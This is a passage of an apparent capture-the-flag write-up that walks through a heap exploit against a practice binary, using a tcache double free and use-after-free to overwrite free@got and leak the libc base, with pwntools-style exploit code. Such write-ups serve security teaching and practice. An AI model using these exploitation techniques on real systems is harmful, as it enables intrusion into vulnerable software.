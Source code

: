 ### Exploit using second idea

- Stage 1: Leaking libc address

First, we will abuse the tcache link list by **Double Free** the user chunk, then **User After Free** to overwrite forward pointer with free@got. Why I use free@got instead of puts@got? It is because we need to enter name when create new user so @got address will change. If we use puts@got, then after malloc it will run back to main and puts@plt, then program crash, while free just run when we need.

```
# Double free
newuser(b'AAAAAAAA')
deleteuser()
deleteuser()

# Use After Free
free_got = 0x602018         # readelf -r vuln | grep free
editname(p64(free_got))
```

Next, we malloc 2 chunks, one admin (to reset tcache) and one user (to leak address). We also know that the LSB of libc address stay remain for every run so overwrite the LSB of free@got is totally fine, we will write that LSB back when we know the correct address:

```
newadmin()                  # Address of heap
newuser(b'A')               # Address of free@got
```

Now we just print out the free address and we can calculate libc base address, then we fix the free@got which we changed LSB when creating new user `newuser(b'A')` above:

```
# Leak address
free_addr = printname().split(b'name is ')[1][1:-1]
free_addr = u64(b'\x50' + free_addr + b'\x00\x00')       # Using GDB to get the LSB byte of free address
log.success("Free address: " + hex(free_addr))
libc.address = free_addr - libc.sym['free']
log.success('Libc base: ' + hex(libc.address))

# Correct the free@got
editname(p64(libc.sym['free']))
```

After having overwrited forward pointer into free@got and malloc 2 chunk, tcache misunderstand the previous address of free@got is size and it save that size for later use:

![tcache_misunderstand.png](images/tcache_misunderstand.png)
